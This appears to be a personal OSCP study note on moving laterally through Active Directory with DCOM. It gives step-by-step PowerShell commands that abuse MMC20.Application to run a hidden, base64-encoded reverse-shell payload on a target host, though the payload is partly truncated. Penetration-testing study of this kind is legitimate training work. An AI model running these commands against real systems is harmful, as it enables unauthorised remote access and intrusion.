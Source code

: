 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/6-dcom/","updated":"2024-01-05T11:37:03.676+01:00"}
---
```


----------
- Distributed Component Object Model
- Originally a system for creating software components that interact with each other
- Now extended for interaction between computers over a network
- Performed over RPC on TCP port 135
- Requires local administrator access
- Collection of DCOM lateral movement techniques: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### DCOM MMC Reverse Shell:
1. Generate encoded Powershell payload using python script.
2. Start elevated powershell.
3. Initiate MMC 2.0 application and set target ip:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))
```
2. Start netcat listener.
3. Execute the application and specify process:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
